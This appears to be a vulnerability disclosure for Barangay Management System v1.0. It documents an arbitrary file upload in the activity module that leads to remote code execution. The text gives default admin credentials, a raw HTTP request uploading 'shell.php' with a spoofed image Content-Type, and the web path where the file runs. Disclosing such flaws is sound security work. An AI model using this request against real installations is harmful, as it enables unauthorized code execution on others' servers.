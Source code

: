 # Barangay Management System v1.0 by itsourcecode.com has arbitrary code execution (RCE)

The decompression password for the source file is itsourcecode.

Login account: admin/admin (Super Admin account)

Vulnerability url: ip/bmis/pages/activity/activity.php

vendors: https://itsourcecode.com/free-projects/php-project/barangay-management-system-project-in-php-with-source-code/

Loophole location: Background management system Activity module editing function-> "activity.php" file picture upload point exists arbitrary file upload vulnerability (RCE).

Click "Save" to save

Content-Type: image/png //Key points (Bypass detection by changing "Content Type" to "Content-Type: image/png")

Request package for file upload：

```sql
POST /bmis/pages/activity/activity.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/bmis/pages/activity/activity.php
Cookie: PHPSESSID=fbu82ocu8kd37b5b20uqq71a35; _ga=GA1.1.1382961971.1655097107; _gid=GA1.1.804632123.1655097107
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------231533211823565
Content-Length: 625

-----------------------------231533211823565
Content-Disposition: form-data; name="txt_doc"

1
-----------------------------231533211823565
Content-Disposition: form-data; name="txt_act"

1
-----------------------------231533211823565
Content-Disposition: form-data; name="txt_desc"

1
-----------------------------231533211823565
Content-Disposition: form-data; name="files[]"; filename="shell.php"
Content-Type: image/png //Key points

JFJF
<?php phpinfo();?>
-----------------------------231533211823565
Content-Disposition: form-data; name="btn_add"

Add Activity
-----------------------------231533211823565--

```

The files will be uploaded to this directory \bmis\pages\activity\photo\
![image](https://user-images.githubusercontent.com/54017627/173300631-ca669f43-c047-404d-9e71-805109debf24.png)

We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/173300781-16024f4f-e01f-4126-90c1-22fbabae9a55.png)

